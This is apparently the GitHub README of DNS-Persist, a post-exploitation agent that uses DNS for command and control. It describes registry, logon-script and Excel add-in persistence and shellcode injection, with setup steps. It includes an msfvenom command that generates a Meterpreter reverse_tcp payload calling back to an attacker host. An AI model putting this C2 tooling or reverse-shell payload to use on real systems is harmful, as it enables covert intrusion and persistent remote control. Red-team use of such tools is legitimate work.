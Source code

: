 # DNS-Persist
DNS-Persist is a post-exploitation agent which uses DNS for command and control. The server-side code is in Python and the agent is coded in C++. This is the first version, more features and improvements will be made in the future.

## Getting Started
### Author
0x09AL - https://twitter.com/0x09al
### Disclaimer
DO NOT USE THIS SOFTWARE FOR ILLEGALL PURPOSES.

THE AUTHOR DOES NOT KEEP ANY RESPONSIBILITY FOR ANY MISUSE OF THE CODE PROVIDED HERE.

## Did I reinvent the wheel ?
There are a lot of great work on DNS C2 but I created this software to be more focused on the persistence part. I'm no expert in C++ and this is my first "real program" in C++ (so expect some cringe worthy code). 

Suggestions about features and improvements are open.

## Architecture

This software is splitted in 2 - parts.
1. DNS server
2. Agent

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Architecture")

## Features
### Persistence mechanisms
This version has only 3 persistence mechanisms. More will be added later.
1. LogonScript persistence.
2. RunKey persistence.
3. Excel Addin persistence.

### Shellcode Injection
This version supports injection of 32-bit shellcode. The shellcode gets executed in a new thread in the same process, so crashing shellcode or invalid one will also crash the agent. Avoid NULL bytes on the shellcode.

#### Shellcode generation example
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00" -f hex -o /tmp/shellcode.hex
```

## TODO LIST
1. Add encryption.  **This version does not have any encryption so take your own risks when using it.**
2. Add more persistence mechanisms.
3. Agent in different programming languages.

## Installation & Usage
### Server side
```
pip install dnslib
git clone https://github.com/0x09AL/DNS-Persist
python server.py
```
By default a DNS server on port 53 will be started. You can change that on the server.py file.

### Agent
I used Visual Studio 2010 to code the agent so importing and compiling it should be fairly easy.

Keep in mind to change the HOST variable in Declarations.h, to match your DNS server IP. 

I did it this way because you do not need to buy a domain name.

```
#define HOST XXX.xxx.XXX.xxx
```

## Screenshots

1. Picture-1

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-1.png "Picture-1")

2. Picture-2

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-2.png "Picture-2")

3. Picture-3

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-3.png "Picture-3")

4. Picture-4

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-4.png "Picture-4")



